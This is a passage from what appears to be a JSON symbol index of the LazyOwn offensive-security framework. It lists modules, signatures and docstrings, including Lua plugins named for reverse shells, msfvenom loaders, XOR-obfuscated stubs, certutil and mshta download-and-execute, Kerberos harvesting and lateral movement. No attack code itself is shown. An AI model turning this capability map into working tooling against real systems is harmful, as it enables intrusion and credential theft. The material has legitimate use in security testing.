``\"windows\"``, or ``\"\"``).", "kind": "method", "line": 616, "name": "set_os_hint", "signature": "def set_os_hint(self, ip, os_hint)"}, {"doc": "Return a host entry by IP, or None if not found.\n\nArgs:\n    ip: Target host IP address.\n\nReturns:\n    :class:`HostEntry` if found, otherwise ``None``.", "kind": "method", "line": 630, "name": "get_host", "signature": "def get_host(self, ip)"}, {"doc": "Return a mapping of IP -> state for all tracked hosts.\n\nReturns:\n    Dict of ``{ip: state_value}`` for every host in the model.", "kind": "method", "line": 642, "name": "get_hosts_summary", "signature": "def get_hosts_summary(self)"}, {"kind": "method", "line": 653, "name": "add_credential", "signature": "def add_credential(self, value, host, service)"}, {"doc": "Mark a credential as working for a specific host in the graph.", "kind": "method", "line": 685, "name": "link_credential_to_success", "signature": "def link_credential_to_success(self, value, host)"}, {"doc": "Mark a credential as rejected by a specific host in the graph.\n\nRecords the negative outcome of an authentication attempt so the\ncred-graph view and reuse ranking can skip credentials already\nproven not to work against a host.\n\nArgs:\n    value: The credential value (\"user:pass\" or hash) that failed.\n    host: The host that rejected the credential.\n\nReturns:\n    None.", "kind": "method", "line": 706, "name": "link_credential_to_failure", "signature": "def link_credential_to_failure(self, value, host)"}, {"kind": "method", "line": 736, "name": "add_vulnerability", "signature": "def add_vulnerability(self, description, host, cve, severity)"}, {"kind": "method", "line": 742, "name": "add_email", "signature": "def add_email(self, address, host, context)"}, {"kind": "method", "line": 748, "name": "add_domain", "signature": "def add_domain(self, domain, host, context)"}, {"doc": "Integrate a list of Finding objects (from obs_parser.ObsParser).\nEach finding updates the relevant part of the world model.", "kind": "method", "line": 762, "name": "update_from_findings", "signature": "def update_from_findings(self, findings)"}, {"doc": "Ingest structured facts from FactStore's ``policy_facts.json``.\n\nReads hosts, services, credentials, and vulnerabilities discovered by\nthe FactStore parser and merges them into the world model. Returns the\ntotal number of new facts ingested.\n\nArgs:\n    facts_path: Path to ``policy_facts.json``. Defaults to\n        ``sessions/policy_facts.json``.\n\nReturns:\n    Count of newly ingested fact entries.", "kind": "method", "line": 835, "name": "consume_policy_facts", "signature": "def consume_policy_facts(self, facts_path)"}, {"doc": "Add an arbitrary directed relationship to the network graph.", "kind": "method", "line": 927, "name": "add_relation", "signature": "def add_relation(self, source, target, relation, weight)"}, {"doc": "Return the top_k highest-centrality nodes as pivot candidates.\nUses normalized degree centrality over the full network graph.", "kind": "method", "line": 948, "name": "pivot_candidates", "signature": "def pivot_candidates(self, top_k)"}, {"doc": "Return the full network graph as a serialisable dict.", "kind": "method", "line": 956, "name": "graph_snapshot", "signature": "def graph_snapshot(self)"}, {"kind": "method", "line": 963, "name": "get_phase", "signature": "def get_phase(self)"}, {"kind": "method", "line": 967, "name": "get_suggested_tools", "signature": "def get_suggested_tools(self)"}, {"doc": "Compact, LLM-readable summary of the current engagement state.\nDesigned to fit in a prompt without consuming excessive tokens.", "kind": "method", "line": 970, "name": "to_context_string", "signature": "def to_context_string(self)"}, {"doc": "Write state to disk. Caller must hold _lock.", "kind": "method", "line": 1029, "name": "_save", "signature": "def _save(self)"}, {"kind": "method", "line": 1048, "name": "_load", "signature": "def _load(self)"}, {"doc": "Discard in-memory state and re-read from the persisted file.\n\nSafe to call from any thread. Acquires the write lock during the\nload to guarantee a consistent snapshot.", "kind": "method", "line": 1078, "name": "reload", "signature": "def reload(self)"}, {"doc": "Clear all state and delete the persisted file.", "kind": "method", "line": 1094, "name": "reset", "signature": "def reset(self)"}, {"doc": "Return a plain-dict snapshot (for JSON serialisation).", "kind": "method", "line": 1105, "name": "snapshot", "signature": "def snapshot(self)"}]}, {"doc": "yaml_generator.py", "id": "modules/yaml_generator.py", "kind": "module", "label": "yaml_generator.py", "language": "py", "sha256": "17d1f65051b12d05", "symbol_count": 8, "symbols": [{"kind": "class", "line": 17, "name": "YAMLPromptGenerator", "signature": "class YAMLPromptGenerator"}, {"kind": "function", "line": 141, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 18, "name": "__init__", "signature": "def __init__(self, provider, api_key)"}, {"doc": "Carga las variables desde payload.json", "kind": "method", "line": 25, "name": "load_payload", "signature": "def load_payload(self)"}, {"doc": "Instantiate the LLM backend mapped to ``self.provider``.\n\nWhen ``self.api_key`` is supplied explicitly it is propagated\ninto the payload mapping so the factory's Groq builder honours\nthe caller-provided credential ahead of environment variables.\n\nReturns:\n    A configured :class:`AIModel` instance.\n\nRaises:\n    LLMBackendNotSupportedError: When ``self.provider`` does not\n        map to a known backend.\n    LLMBackendUnavailableError: When the resolved backend cannot\n        be constructed from the current environment.", "kind": "method", "line": 32, "name": "_load_model", "signature": "def _load_model(self)"}, {"doc": "Genera el prompt para la IA en inglés", "kind": "method", "line": 54, "name": "generate_prompt", "signature": "def generate_prompt(self, user_request)"}, {"doc": "Extrae el primer bloque YAML entre ```yaml y ```", "kind": "method", "line": 100, "name": "extract_yaml_from_markdown", "signature": "def extract_yaml_from_markdown(self, text)"}, {"doc": "Genera el YAML y lo guarda en disco", "kind": "method", "line": 109, "name": "create_yaml_addon", "signature": "def create_yaml_addon(self, user_request, output_dir)"}]}, {"doc": "YARA integration for malware classification and IOC scanning.  Provides file scanning, process memory scanning, and rule management within the LazyOwn framework.", "id": "modules/yara_scanner.py", "kind": "module", "label": "yara_scanner.py", "language": "py", "sha256": "e4c8f5aa7a809d88", "symbol_count": 16, "symbols": [{"doc": "Scanner that compiles and applies YARA rules against files and directories.\n\nArgs:\n    rules_dir: Directory containing .yar rule files.\n    auto_compile: Automatically compile rules on initialization.", "kind": "class", "line": 23, "name": "YaraScanner", "signature": "class YaraScanner"}, {"doc": "Create a set of default YARA rules for common threats.\n\nReturns:\n    List of created rule file paths.", "kind": "function", "line": 371, "name": "create_default_rules", "signature": "def create_default_rules()"}, {"kind": "method", "line": 31, "name": "__init__", "signature": "def __init__(self, rules_dir, auto_compile)"}, {"doc": "Create the YARA rules directory if it does not exist.", "kind": "method", "line": 41, "name": "ensure_directory", "signature": "def ensure_directory(self)"}, {"doc": "Return external variables for YARA rules.", "kind": "method", "line": 45, "name": "_load_external_vars", "signature": "def _load_external_vars(self)"}, {"doc": "Compile all .yar files in the rules directory.\n\nReturns:\n    bool: True if compilation succeeded, False otherwise.", "kind": "method", "line": 54, "name": "compile_all", "signature": "def compile_all(self)"}, {"doc": "Scan a single file with all compiled YARA rules.\n\nArgs:\n    filepath: Path to the file to scan.\n    timeout: Maximum scan time in seconds.\n\nReturns:\n    List of match dictionaries with rule, namespace, tags, meta, and strings.", "kind": "method", "line": 98, "name": "scan_file", "signature": "def scan_file(self, filepath, timeout)"}, {"doc": "Internal scan with timeout using threading for isolation.", "kind": "method", "line": 129, "name": "_scan_with_timeout", "signature": "def _scan_with_timeout(self, filepath, externals, timeout)"}, {"doc": "Format a YARA match object into a dictionary.\n\nArgs:\n    match: YARA match object.\n\nReturns:\n    Dict with rule name, namespace, tags, metadata, and matched strings.", "kind": "method", "line": 162, "name": "_format_match", "signature": "def _format_match(self, match)"}, {"doc": "Scan all files in a directory recursively.\n\nArgs:\n    directory: Root directory to scan.\n    recursive: Whether to descend into subdirectories.\n    extensions: Optional list of file extensions to filter (e.g., ['.exe', '.dll']).\n    max_files: Maximum number of files to scan.\n\nReturns:\n    List of match dictionaries grouped by file.", "kind": "method", "line": 187, "name": "scan_directory", "signature": "def scan_directory(self, directory, recursive, extensions, max_files)"}, {"doc": "Compute SHA256 hash of a file.", "kind": "method", "line": 250, "name": "_sha256", "signature": "def _sha256(filepath)"}, {"doc": "Add a new YARA rule to the rules directory.\n\nArgs:\n    name: Rule filename (without extension, will add .yar).\n    content: YARA rule source code.\n\nReturns:\n    Path to the created rule file.", "kind": "method", "line": 258, "name": "add_rule", "signature": "def add_rule(self, name, content)"}, {"doc": "List all YARA rules in the rules directory.\n\nReturns:\n    List of dicts with name and path keys.", "kind": "method", "line": 277, "name": "list_rules", "signature": "def list_rules(self)"}, {"doc": "Attempt to download community YARA rules from popular repositories.\n\nReturns:\n    bool: True if rules were downloaded successfully.", "kind": "method", "line": 300, "name": "download_community_rules", "signature": "def download_community_rules(self)"}, {"doc": "Scan for IOCs (hashes, strings, registry keys) in a file/directory.\n\nArgs:\n    target_path: File or directory to scan.\n    iocs: List of IOC dicts with type and value keys.\n\nReturns:\n    List of matched IOCs.", "kind": "method", "line": 328, "name": "ioc_scan", "signature": "def ioc_scan(self, target_path, iocs)"}, {"kind": "function", "line": 137, "name": "target", "signature": "def target()"}]}, {"id": "mutate.sh", "kind": "module", "label": "mutate.sh", "language": "sh", "sha256": "a0cebdb5be727f79", "symbol_count": 0, "symbols": []}, {"id": "plugins/generate_c_reverse_shell.lua", "kind": "module", "label": "generate_c_reverse_shell.lua", "language": "lua", "sha256": "451075212e1bb96d", "symbol_count": 2, "symbols": [{"kind": "function", "line": 1, "name": "generate_c_reverse_shell"}, {"kind": "function", "line": 108, "name": "all"}]}, {"id": "plugins/generate_cleanup_commands.lua", "kind": "module", "label": "generate_cleanup_commands.lua", "language": "lua", "sha256": "6d4866a9b447abb4", "symbol_count": 1, "symbols": [{"kind": "function", "line": 3, "name": "generate_cleanup_commands"}]}, {"id": "plugins/generate_html_payload.lua", "kind": "module", "label": "generate_html_payload.lua", "language": "lua", "sha256": "6c3b1d940801de0a", "symbol_count": 1, "symbols": [{"kind": "function", "line": 1, "name": "generate_html_payload"}]}, {"id": "plugins/generate_lateral_command.lua", "kind": "module", "label": "generate_lateral_command.lua", "language": "lua", "sha256": "576bde574c50bbb8", "symbol_count": 1, "symbols": [{"kind": "function", "line": 4, "name": "generate_lateral_command"}]}, {"id": "plugins/generate_linux_asm_reverse_shell.lua", "kind": "module", "label": "generate_linux_asm_reverse_shell.lua", "language": "lua", "sha256": "ec49dcd2a405a5fc", "symbol_count": 2, "symbols": [{"kind": "function", "line": 1, "name": "generate_linux_asm_reverse_shell"}, {"kind": "function", "line": 121, "name": "all"}]}, {"id": "plugins/generate_linux_raw_shellcode.lua", "kind": "module", "label": "generate_linux_raw_shellcode.lua", "language": "lua", "sha256": "1168ffb52fb96f1a", "symbol_count": 1, "symbols": [{"kind": "function", "line": 1, "name": "generate_linux_raw_shellcode"}]}, {"id": "plugins/generate_lolbird.lua", "kind": "module", "label": "generate_lolbird.lua", "language": "lua", "sha256": "adf3242ebc8ab2fb", "symbol_count": 6, "symbols": [{"kind": "function", "line": 4, "name": "write_file"}, {"kind": "function", "line": 12, "name": "read_file"}, {"kind": "function", "line": 21, "name": "xor_hex_string"}, {"kind": "function", "line": 31, "name": "xor_string"}, {"kind": "function", "line": 44, "name": "generate_lolbird_ps1"}, {"kind": "function", "line": 64, "name": "Xor"}]}, {"id": "plugins/generate_msfvenom_loader.lua", "kind": "module", "label": "generate_msfvenom_loader.lua", "language": "lua", "sha256": "11bf206fd61bfc8a", "symbol_count": 5, "symbols": [{"kind": "function", "line": 2, "name": "execute_command_to_file"}, {"kind": "function", "line": 7, "name": "read_file"}, {"kind": "function", "line": 18, "name": "hex_to_nasm"}, {"kind": "function", "line": 49, "name": "generate_loader"}, {"kind": "function", "line": 104, "name": "generate_msfvenom_loader"}]}, {"id": "plugins/generate_msfvenom_loader_windows.lua", "kind": "module", "label": "generate_msfvenom_loader_windows.lua", "language": "lua", "sha256": "e3dac5d88381a30c", "symbol_count": 1, "symbols": [{"kind": "function", "line": 2, "name": "generate_msfvenom_loader_windows"}]}, {"id": "plugins/generate_reverse_shell.lua", "kind": "module", "label": "generate_reverse_shell.lua", "language": "lua", "sha256": "4c42ed882994080d", "symbol_count": 1, "symbols": [{"kind": "function", "line": 1, "name": "generate_reverse_shell"}]}, {"id": "plugins/generate_stub.lua", "kind": "module", "label": "generate_stub.lua", "language": "lua", "sha256": "b82dff93b3e618f9", "symbol_count": 5, "symbols": [{"kind": "function", "line": 4, "name": "write_file"}, {"kind": "function", "line": 12, "name": "read_file"}, {"kind": "function", "line": 21, "name": "xor_data"}, {"kind": "function", "line": 30, "name": "xor_string"}, {"kind": "function", "line": 43, "name": "generate_stub_ps1"}]}, {"id": "plugins/init_plugins.lua", "kind": "module", "label": "init_plugins.lua", "language": "lua", "sha256": "a738d9ee0c8a87d8", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "load_plugin"}]}, {"id": "plugins/kerberos_harvest.lua", "kind": "module", "label": "kerberos_harvest.lua", "language": "lua", "sha256": "2a48e08a08b8fb9b", "symbol_count": 1, "symbols": [{"kind": "function", "line": 1, "name": "kerberos_harvest"}]}, {"id": "plugins/lolbas_bitsadmin_exe.lua", "kind": "module", "label": "lolbas_bitsadmin_exe.lua", "language": "lua", "sha256": "351f7e4698e4fb7b", "symbol_count": 0, "symbols": []}, {"id": "plugins/lolbas_certutil_download_exec.lua", "kind": "module", "label": "lolbas_certutil_download_exec.lua", "language": "lua", "sha256": "be2d937fc784fd03", "symbol_count": 3, "symbols": [{"kind": "function", "line": 5, "name": "write_file"}, {"kind": "function", "line": 13, "name": "read_file"}, {"kind": "function", "line": 21, "name": "xor_data"}]}, {"id": "plugins/lolbas_certutil_exe.lua", "kind": "module", "label": "lolbas_certutil_exe.lua", "language": "lua", "sha256": "981ee23979419d5f", "symbol_count": 1, "symbols": [{"kind": "function", "line": 2, "name": "run_msfvenom"}]}, {"id": "plugins/lolbas_mshta_js.lua", "kind": "module", "label": "lolbas_mshta_js.lua", "language": "lua", "sha256": "7c23fa72d631de90", "symbol_count": 0, "symbols": []}, {"id": "plugins/lolbas_mshta_reverse_shell.lua", "kind": "module", "label": "lolbas_mshta_reverse_shell.lua", "language": "lua", "sha256": "10de7c4a725c89a6", "symbol_count": 0, "symbols": []}, {"id": "plugins/lolbas_rundll32_dll.lua", "kind": "module", "label": "lolbas_rundll32_dll.lua", "language": "lua", "sha256": "708de0d415249f62", "symbol_count": 0, "symbols": []}, {"id": "plugins/lolbas_wmic_xsl_execution.lua", "kind": "module", "label": "lolbas_wmic_xsl_execution.lua", "language": "lua", "sha256": "a6198144a31aca16", "symbol_count": 1, "symbols": [{"kind": "function", "line": 4, "name": "write_file"}]}, {"id": "plugins/parse_nmap_with_xmlstarlet.lua", "kind": "module", "label": "parse_nmap_with_xmlstarlet.lua", "language": "lua", "sha256": "83f694c0fdfc9267", "symbol_count": 1, "symbols": [{"kind": "function", "line": 1, "name": "parse_nmap_with_xmlstarlet"}]}, {"id": "plugins/run_nuclei_on_nmap_files.lua", "kind": "module", "label": "run_nuclei_on_nmap_files.lua", "language": "lua", "sha256": "92597f32bedd7b5c", "symbol_count": 1, "symbols": [{"kind": "function", "line": 1, "name": "run_nuclei_on_nmap_files"}]}, {"id": "plugins/run_python_rev_c2.lua", "kind": "module", "label": "run_python_rev_c2.lua", "language": "lua", "sha256": "ec02485db675d87c", "symbol_count": 1, "symbols": [{"kind": "function", "line": 2, "name": "run_python_rev_c2"}]}, {"id": "plugins/rundll32_sct_from_url.lua", "kind": "module", "label": "rundll32_sct_from_url.lua", "language": "lua", "sha256": "b5598761cdf18cd1", "symbol_count": 4, "symbols": [{"kind": "function", "line": 4, "name": "write_file"}, {"kind": "function", "line": 12, "name": "read_file"}, {"kind": "function", "line": 22, "name": "base64_encode"}, {"kind": "function", "line": 58, "name": "generate_sct"}]}, {"id": "plugins/validate_shellcode.lua", "kind": "module", "label": "validate_shellcode.lua", "language": "lua", "sha256": "ba91100e821896e2", "symbol_count": 4, "symbols": [{"kind": "function", "line": 2, "name": "hex_to_bytes"}, {"kind": "function", "line": 21, "name": "esc_hex_to_bytes"}, {"kind": "function", "line": 65, "name": "hex_list_to_byte_values"}, {"kind": "function", "line": 81, "name": "validate_shellcode"}]}, {"id": "plugins/visualize_network.lua", "kind": "module", "label": "visualize_network.lua", "language": "lua", "sha256": "8f043187f778ee14", "symbol_count": 1, "symbols": [{"kind": "function", "line": 1, "name": "visualize_network"}]}, {"doc": "Entry point: python3 -m poc_tui", "id": "poc_tui/__main__.py", "kind": "module", "label": "__main__.py", "language": "py", "sha256": "ec240d381ad1dd62", "symbol_count": 0, "symbols": []}, {"doc": "LazyOwn TUI Shell — Proof of Concept.  cmd2 as backend, Textual as frontend. Zero migration needed. All 724+ commands, plugins, aliases, hooks — everything works.  Run from LazyOwn root: python3 poc_tui/app.py", "id": "poc_tui/app.py", "kind": "module", "label": "app.py", "language": "py", "sha256": "980495f606b8e023", "symbol_count": 47, "symbols": [{"doc": "Run the real cmd2 LazyOwnShell in-process, capture all output.", "kind": "class", "line": 44, "name": "ShellBackend", "signature": "class ShellBackend"}, {"doc": "Left sidebar: live campaign state from payload.json.", "kind": "class", "line": 137, "name": "DashboardPanel", "signature": "class DashboardPanel(Static)"}, {"doc": "Right sidebar: command list from the real cmd2 shell.", "kind": "class", "line": 195, "name": "PluginBrowser", "signature": "class PluginBrowser(Static)"}, {"doc": "Center: accumulative scrollable output log.\n\nCommand output arrives with raw ANSI escape codes from the real shell.\nIt is converted via Text.from_ansi (never parsed as Rich markup, which\nwould break on sequences like '[+]').", "kind": "class", "line": 240, "name": "OutputPanel", "signature": "class OutputPanel(VerticalScroll)"}, {"doc": "Textual frontend for the real LazyOwn cmd2 shell.", "kind": "class", "line": 297, "name": "LazyOwnTUI", "signature": "class LazyOwnTUI(App)"}, {"kind": "function", "line": 629, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 47, "name": "__init__", "signature": "def __init__(self, base_dir)"}, {"doc": "Import LazyOwnShell in the main thread (required for signal handlers).", "kind": "method", "line": 53, "name": "import_shell_class", "signature": "def import_shell_class(self)"}, {"doc": "Instantiate LazyOwnShell (must be called from main thread).", "kind": "method", "line": 71, "name": "start", "signature": "def start(self)"}, {"doc": "Execute a command and return its captured output.", "kind": "method", "line": 83, "name": "run", "signature": "def run(self, cmd)"}, {"doc": "Return {command_name: help_text} from the live shell.", "kind": "method", "line": 106, "name": "get_commands", "signature": "def get_commands(self)"}, {"kind": "method", "line": 119, "name": "get_aliases", "signature": "def get_aliases(self)"}, {"kind": "method", "line": 124, "name": "stop", "signature": "def stop(self)"}, {"kind": "method", "line": 140, "name": "__init__", "signature": "def __init__(self, base_dir)"}, {"kind": "method", "line": 144, "name": "compose", "signature": "def compose(self)"}, {"doc": "Pull latest state from the LIVE shell params (not stale disk file).", "kind": "method", "line": 165, "name": "refresh_data", "signature": "def refresh_data(self, backend, cmd_count)"}, {"kind": "method", "line": 198, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 201, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 207, "name": "update_commands", "signature": "def update_commands(self, commands)"}, {"kind": "method", "line": 223, "name": "_guess_category", "signature": "def _guess_category(name, help_text)"}, {"kind": "method", "line": 248, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 252, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 255, "name": "_log", "signature": "def _log(self)"}, {"doc": "Write a Rich renderable (no markup parsing applied).", "kind": "method", "line": 258, "name": "write_renderable", "signature": "def write_renderable(self, renderable)"}, {"doc": "Write a trusted internal string with Rich markup.", "kind": "method", "line": 263, "name": "write_markup", "signature": "def write_markup(self, text)"}, {"kind": "method", "line": 268, "name": "append_command", "signature": "def append_command(self, cmd)"}, {"doc": "Write real shell output, converting ANSI — never markup-parsed.", "kind": "method", "line": 273, "name": "append_result", "signature": "def append_result(self, text, success)"}, {"doc": "Write a TUI-side error message (plain, no markup from unsafe text).", "kind": "method", "line": 283, "name": "append_error", "signature": "def append_error(self, text)"}, {"doc": "Write a TUI-side status message.", "kind": "method", "line": 287, "name": "append_system", "signature": "def append_system(self, text)"}, {"kind": "method", "line": 394, "name": "__init__", "signature": "def __init__(self, base_dir)"}, {"kind": "method", "line": 405, "name": "compose", "signature": "def compose(self)"}, {"doc": "Start the real cmd2 shell backend.", "kind": "method", "line": 418, "name": "on_mount", "signature": "def on_mount(self)"}, {"doc": "Called on main thread after backend is initialized.", "kind": "method", "line": 444, "name": "_on_backend_ready", "signature": "def _on_backend_ready(self)"}, {"kind": "method", "line": 464, "name": "_auto_refresh_dashboard", "signature": "def _auto_refresh_dashboard(self)"}, {"doc": "Send command to real cmd2 shell, display captured output.\n\nCommands are queued so only one runs at a time. Words that would\nexit the inner shell (q/quit/exit ...) close the TUI cleanly instead\nof triggering LazyOwn's real do_exit mid-render.", "kind": "method", "line": 470, "name": "execute_command", "signature": "def execute_command(self, cmd_str)"}, {"doc": "Start the next queued command if nothing is running.", "kind": "method", "line": 495, "name": "_drain_queue", "signature": "def _drain_queue(self)"}, {"doc": "Render command output on the main thread, then refocus input.", "kind": "method", "line": 525, "name": "_show_result", "signature": "def _show_result(self, result)"}, {"kind": "method", "line": 539, "name": "action_clear_output", "signature": "def action_clear_output(self)"}, {"kind": "method", "line": 544, "name": "action_tab_complete", "signature": "def action_tab_complete(self)"}, {"kind": "method", "line": 549, "name": "action_toggle_sidebar", "signature": "def action_toggle_sidebar(self)"}, {"kind": "method", "line": 555, "name": "action_refresh_dashboard", "signature": "def action_refresh_dashboard(self)"}, {"doc": "Clean shutdown: drop the queue, stop the shell, exit the app.", "kind": "method", "line": 561, "name": "action_quit", "signature": "def action_quit(self)"}, {"kind": "method", "line": 577, "name": "on_command_submitted", "signature": "def on_command_submitted(self, event)"}, {"kind": "method", "line": 586, "name": "on_key", "signature": "def on_key(self, event)"}, {"kind": "method", "line": 605, "name": "_tab_complete", "signature": "def _tab_complete(self, inp)"}, {"kind": "function", "line": 429, "name": "_init_backend", "signature": "def _init_backend()"}, {"kind": "function", "line": 510, "name": "_work", "signature": "def _work()"}]}, {"doc": "Payload.json configuration manager for the TUI shell.", "id": "poc_tui/config.py", "kind": "module", "label": "config.py", "language": "py", "sha256": "a483f43311df3350", "symbol_count": 11, "symbols": [{"doc": "Read/write access to payload.json settings.", "kind": "class", "line": 12, "name": "PayloadConfig", "signature": "class PayloadConfig"}, {"kind": "method", "line": 18, "name": "__post_init__", "signature": "def __post_init__(self)"}, {"doc": "Re-read payload.json from disk.", "kind": "method", "line": 21, "name": "reload", "signature": "def reload(self)"}, {"doc": "Persist current state back to payload.json.", "kind": "method", "line": 28, "name": "save", "signature": "def save(self)"}, {"kind": "method", "line": 35, "name": "get", "signature": "def get(self, key, default)"}, {"kind": "method", "line": 38, "name": "set", "signature": "def set(self, key, value)"}, {"kind": "method", "line": 41, "name": "keys", "signature": "def keys(self)"}, {"kind": "method", "line": 44, "name": "items", "signature": "def items(self)"}, {"kind": "method", "line": 47, "name": "__getitem__", "signature": "def __getitem__(self, key)"}, {"kind": "method", "line": 50, "name": "__setitem__", "signature": "def __setitem__(self, key, value)"}, {"kind": "method", "line": 53, "name": "__contains__", "signature": "def __contains__(self, key)"}]}, {"doc": "Unified plugin loader — YAML addons, Lua plugins, and .tool files.", "id": "poc_tui/plugin_loader.py", "kind": "module", "label": "plugin_loader.py", "language": "py", "sha256": "64e24fa089988660", "symbol_count": 22, "symbols": [{"doc": "Metadata for a single registered command.", "kind": "class", "line": 29, "name": "PluginSpec", "signature": "class PluginSpec"}, {"doc": "Replace {key} tokens with shell-safe values from params.\n\nEvery substituted value is wrapped in :func:`shlex.quote` because\nthe resulting string runs under ``shell=True`` and values arrive\nfrom scan data and operator config. Safe tokens (IPs, hostnames)\npass through unquoted; metacharacters are neutralized inside\nsingle quotes. Multi-word values become one shell word — per-run\nflags travel as free args, appended verbatim after the template.", "kind": "function", "line": 41, "name": "_replace_placeholders", "signature": "def _replace_placeholders(command, params)"}, {"doc": "Validate a git clone URL, rejecting shell metacharacters.\n\nArgs:\n    url: The repository URL to validate.\n\nReturns:\n    The validated URL.\n\nRaises:\n    ValueError: If the URL contains shell metacharacters or is invalid.", "kind": "function", "line": 62, "name": "_validate_clone_url", "signature": "def _validate_clone_url(url)"}, {"doc": "Load and register all plugin types into a command registry.\n\nThe registry is a plain dict mapping command names to callables.\nThis class is framework-agnostic — the Textual app owns the dispatch loop.", "kind": "class", "line": 84, "name": "PluginLoader", "signature": "class PluginLoader"}, {"doc": "Minimal proxy exposed to Lua plugins as the global ``app`` object.", "kind": "class", "line": 291, "name": "_LuaAppProxy", "signature": "class _LuaAppProxy"}, {"kind": "function", "line": 52, "name": "_subst", "signature": "def _subst(match)"}, {"kind": "method", "line": 91, "name": "__init__", "signature": "def __init__(self, config, base_dir)"}, {"kind": "method", "line": 105, "name": "_setup_lua", "signature": "def _setup_lua(self)"}, {"doc": "Bridge: Lua calls register_command(name, fn) -> we wrap it.", "kind": "method", "line": 114, "name": "_lua_register", "signature": "def _lua_register(self, name, func)"}, {"kind": "method", "line": 131, "name": "_list_files", "signature": "def _list_files(self, directory)"}, {"doc": "Load yaml addons, lua plugins, and .tool files. Return specs.", "kind": "method", "line": 139, "name": "load_all", "signature": "def load_all(self)"}, {"kind": "method", "line": 148, "name": "_load_yaml_addons", "signature": "def _load_yaml_addons(self)"}, {"kind": "method", "line": 161, "name": "_register_yaml_addon", "signature": "def _register_yaml_addon(self, data)"}, {"kind": "method", "line": 223, "name": "_load_lua_plugins", "signature": "def _load_lua_plugins(self)"}, {"kind": "method", "line": 248, "name": "_load_tool_files", "signature": "def _load_tool_files(self)"}, {"kind": "method", "line": 261, "name": "_register_tool", "signature": "def _register_tool(self, data)"}, {"kind": "method", "line": 294, "name": "__init__", "signature": "def __init__(self, config)"}, {"kind": "method", "line": 298, "name": "params", "signature": "def params(self)"}, {"kind": "method", "line": 301, "name": "one_cmd", "signature": "def one_cmd(self, cmd)"}, {"kind": "function", "line": 117, "name": "wrapper", "signature": "def wrapper(arg)"}, {"kind": "function", "line": 172, "name": "wrapper", "signature": "def wrapper(arg)"}, {"kind": "function", "line": 269, "name": "wrapper", "signature": "def wrapper(arg)"}]}, {"doc": "Convenience launcher that symlinks LazyOwn dirs and starts the TUI.", "id": "poc_tui/run.py", "kind": "module", "label": "run.py", "language": "py", "sha256": "0d9f7ba3d1d2f181", "symbol_count": 1, "symbols": [{"kind": "function", "line": 9, "name": "main", "signature": "def main()"}]}, {"doc": "Pytest tests for LazyOwn TUI Shell POC.", "id": "poc_tui/test_app.py", "kind": "module", "label": "test_app.py", "language": "py", "sha256": "046bff38e1c41c61", "symbol_count": 56, "symbols": [{"kind": "function", "line": 17, "name": "_run_async", "signature": "def _run_async(coro)"}, {"kind": "function", "line": 26, "name": "_make_backend", "signature": "def _make_backend()"}, {"kind": "class", "line": 32, "name": "TestShellBackend", "signature": "class TestShellBackend"}, {"kind": "class", "line": 100, "name": "TestLazyOwnTUIApp", "signature": "class TestLazyOwnTUIApp"}, {"kind": "method", "line": 33, "name": "test_init_sets_base_dir", "signature": "def test_init_sets_base_dir(self)"}, {"kind": "method", "line": 37, "name": "test_run_before_start", "signature": "def test_run_before_start(self)"}, {"kind": "method", "line": 42, "name": "test_start_and_stop", "signature": "def test_start_and_stop(self)"}, {"kind": "method", "line": 48, "name": "test_run_show", "signature": "def test_run_show(self)"}, {"kind": "method", "line": 55, "name": "test_run_help", "signature": "def test_run_help(self)"}, {"kind": "method", "line": 62, "name": "test_get_commands", "signature": "def test_get_commands(self)"}, {"kind": "method", "line": 71, "name": "test_get_aliases", "signature": "def test_get_aliases(self)"}, {"kind": "method", "line": 78, "name": "test_set_and_show", "signature": "def test_set_and_show(self)"}, {"kind": "method", "line": 86, "name": "test_buffer_cleared", "signature": "def test_buffer_cleared(self)"}, {"kind": "method", "line": 101, "name": "test_app_creates", "signature": "def test_app_creates(self)"}, {"kind": "method", "line": 105, "name": "test_app_starts_stops", "signature": "def test_app_starts_stops(self)"}, {"kind": "method", "line": 114, "name": "test_panels_visible", "signature": "def test_panels_visible(self)"}, {"kind": "method", "line": 125, "name": "test_input_has_focus", "signature": "def test_input_has_focus(self)"}, {"kind": "method", "line": 135, "name": "test_execute_help", "signature": "def test_execute_help(self)"}, {"kind": "method", "line": 151, "name": "test_input_cleared_after_submit", "signature": "def test_input_cleared_after_submit(self)"}, {"kind": "method", "line": 164, "name": "test_history_up", "signature": "def test_history_up(self)"}, {"kind": "method", "line": 181, "name": "test_history_down", "signature": "def test_history_down(self)"}, {"kind": "method", "line": 197, "name": "test_tab_complete", "signature": "def test_tab_complete(self)"}, {"kind": "method", "line": 209, "name": "test_toggle_sidebar", "signature": "def test_toggle_sidebar(self)"}, {"kind": "method", "line": 224, "name": "test_quit", "signature": "def test_quit(self)"}, {"kind": "method", "line": 234, "name": "test_backend_ready", "signature": "def test_backend_ready(self)"}, {"kind": "method", "line": 247, "name": "test_set_updates_dashboard", "signature": "def test_set_updates_dashboard(self)"}, {"kind": "method", "line": 269, "name": "test_show_command_output_in_log", "signature": "def test_show_command_output_in_log(self)"}, {"doc": "'q' must quit the TUI — never reach the real shell's exit alias.", "kind": "method", "line": 288, "name": "test_q_is_quit_not_shell_alias", "signature": "def test_q_is_quit_not_shell_alias(self)"}, {"doc": "exit/quit/q words must never reach shell.onecmd.", "kind": "method", "line": 304, "name": "test_quit_word_not_sent_to_backend", "signature": "def test_quit_word_not_sent_to_backend(self)"}, {"doc": "Two fast commands must queue, not race.", "kind": "method", "line": 318, "name": "test_commands_queue_serialized", "signature": "def test_commands_queue_serialized(self)"}, {"kind": "method", "line": 341, "name": "test_focus_returns_after_command", "signature": "def test_focus_returns_after_command(self)"}, {"doc": "append_result converts ANSI escapes to styled text, no markup crash.", "kind": "method", "line": 358, "name": "test_output_renders_ansi_codes", "signature": "def test_output_renders_ansi_codes(self)"}, {"kind": "method", "line": 373, "name": "test_busy_command_shows_running_indicator", "signature": "def test_busy_command_shows_running_indicator(self)"}, {"doc": "All three layout panels must be visible in the exported screen.\n\nRegression: the previous CSS grid collapsed the center output\npanel to zero width — commands executed but nothing was visible.", "kind": "method", "line": 392, "name": "test_layout_all_panels_render_in_screenshot", "signature": "def 